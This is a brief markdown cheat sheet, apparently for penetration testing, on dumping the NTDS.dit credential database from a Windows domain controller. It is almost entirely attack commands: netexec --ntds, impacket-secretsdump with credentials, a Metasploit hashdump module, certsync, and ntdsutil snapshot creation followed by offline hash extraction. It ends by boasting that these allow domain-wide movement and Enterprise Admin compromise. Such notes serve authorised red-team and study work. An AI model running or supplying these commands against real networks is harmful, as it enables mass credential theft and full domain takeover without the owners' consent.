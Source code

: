 # Dump NTDS from Domain Controller

## Tools: CrackMpaExec/Netexec , secretsdump , ntdsutil , metasploit , certsync

 - netexec smb DC_IP -u USER -p PASSWORD -d DOMAIN --ntds

 - impacket-secretsdump 'DOMAIN/USER:PASSWORD'@IP

 - windows/gather/credentials/domain_hashdump (Metasploit)

 - certsync -u USER -p PASSWORD -d DOMAIN -dc-ip DC_IP -ns NAMESERVER_IP

### NTDSUtil

 - ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q (On the DC)

 - impacket-secretsdump -ntds NTDS_FILE.dit -system SYSTEM_FILE -hashes LMHASH:NTHASH LOCAL -outputfile ntlm-extract

### With these techniques you can move everywhere within the entire domain, as well as possibly compromise the Enterprise Admin (in this case it's game over)
